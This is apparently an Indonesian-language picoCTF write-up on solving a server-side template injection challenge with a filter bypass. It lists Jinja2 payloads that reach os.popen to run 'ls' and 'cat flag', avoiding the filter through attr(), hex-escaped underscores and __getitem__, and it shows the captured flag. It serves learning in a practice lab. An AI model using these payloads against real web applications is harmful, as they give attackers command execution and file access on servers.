



Find the flag 
https://play.picoctf.org/practice/challenge/488 

Hal-hal yang saya lakukan: 

1. Mencoba payload yang sebelumnya sudah saya gunakan untuk melihat flagnya {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }} Namun sayangnya gagal 
2. Mencoba melihat directori kita dengan {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}} maka kita dapat melihat bahwa terdapat flag requirments.txt 
3. Mencoba mengubah payload yang digunakan dengan {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}} kita mendapatkan flag yaitu picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}

Yang dimana ini merupakan payload yang menghindari (.) lalu menggunakan hex untuk mengencode (_) menggunakan `__getitem__()` untuk menggantikan `[]`  

Bukti 
 

#### Berhasil
